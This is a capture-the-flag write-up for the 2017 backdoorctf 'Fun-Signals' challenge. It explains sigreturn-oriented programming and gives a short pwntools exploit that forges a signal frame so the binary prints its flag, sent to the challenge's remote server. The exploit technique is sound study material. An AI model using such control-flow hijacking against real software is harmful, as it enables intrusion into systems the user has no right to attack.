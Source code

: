 ```yaml
---
title: backdoorctf 2017 - Fun-Signals Writeup
date: '2017-09-24'
lastmod: '2023-07-03T19:19:24+02:00'
categories:
- ctf_backdoorctf17
- writeup
- backdoorctf17
tags:
- exploitation
authors:
- andreafioraldi
---
```


This binary has a very small portion of code.

Analize it in IDA:

<img class="img-responsive" src="/backdoorctf17/funsignals-1.png" alt="IDA screenshot showing disassembled binary code with syscalls to read() and rt_sigreturn()" width="603" height="260">

The first syscall is a read (rax = 0) of 1024 bytes in the stack.

The second is rt_sigreturn.

For a l337 h4xx0r sigreturn means SROP. For me it means [Wikipedia](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming).

I learnt that we can control the program flow like with rop using sigreturn and the associated structure on the stack.

This structure contains the context of the signal handler.

So writing this structure on the stack (with read) we have the complete control of all registers.

A good choice is to prepare the registers for a write to the stdout of the flag.

The syscall gadget under `int 3` is a perfect target for rip.

Wait, how is composed a signal frame? I don't know, but pwnlib does.

```python
from pwn import *

context.arch = "amd64"

frame = SigreturnFrame()
frame.rax = constants.SYS_write
frame.rdi = constants.STDOUT_FILENO
frame.rsi = 0x10000023 #flag string address
frame.rdx = 50 #read size
frame.rsp = 0xABADCAFE
frame.rip = 0x10000015 #syscall gadget

#p = process("./player_bin")
p = remote("163.172.176.29", 9034)
p.send(str(frame))

print p.recvall()
```
